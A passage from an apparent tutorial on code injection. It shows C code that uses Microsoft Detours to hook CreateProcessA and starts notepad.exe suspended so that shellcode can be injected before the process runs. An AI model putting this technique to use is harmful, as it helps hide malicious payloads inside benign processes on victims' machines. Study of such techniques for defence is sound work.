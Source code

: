 #### 6. Installing the Hook for `CreateProcessA`

This function installs the hook for `CreateProcessA`. We begin a Detours transaction, update the current thread, and attach the hook using `DetourAttach`. The hook is applied after calling `DetourTransactionCommit`.

```c
BOOL InstallCreateProcessHook()
{
    if (DetourTransactionBegin() != NO_ERROR) return FALSE;
    if (DetourUpdateThread(GetCurrentThread()) != NO_ERROR) return FALSE;
    if (DetourAttach(&(PVOID&)OriginalCreateProcessA, HookedCreateProcessA) != NO_ERROR) return FALSE;
    return DetourTransactionCommit() == NO_ERROR;
}
```

#### 7. Uninstalling the Hook for `CreateProcessA`

This function removes the hook for `CreateProcessA` by detaching it with `DetourDetach` and committing the transaction.

```c
BOOL UninstallCreateProcessHook()
{
    if (DetourTransactionBegin() != NO_ERROR) return FALSE;
    if (DetourUpdateThread(GetCurrentThread()) != NO_ERROR) return FALSE;
    if (DetourDetach(&(PVOID&)OriginalCreateProcessA, HookedCreateProcessA) != NO_ERROR) return FALSE;
    return DetourTransactionCommit() == NO_ERROR;
}
```

#### 8. Main Function

In the main function, we first install the hook for `CreateProcessA`. Then, we create a benign process (in this case, `notepad.exe`) in a suspended state using the `CREATE_SUSPENDED` flag. This allows us to inject the shellcode and modify the thread context before the process starts running. Once the injection is complete, we wait for the process to finish, close the handles, and uninstall the hook.

```c
int main()
{
    InstallCreateProcessHook();

    STARTUPINFOA si = { sizeof(STARTUPINFOA) };
    PROCESS_INFORMATION pi;
    CreateProcessA(NULL, "C:\Windows\System32\notepad.exe", NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi);

    WaitForSingleObject(pi.hProcess, INFINITE);
    CloseHandle(pi.hProcess);
    CloseHandle(pi.hThread);

    UninstallCreateProcessHook();

    return 0;
}
```
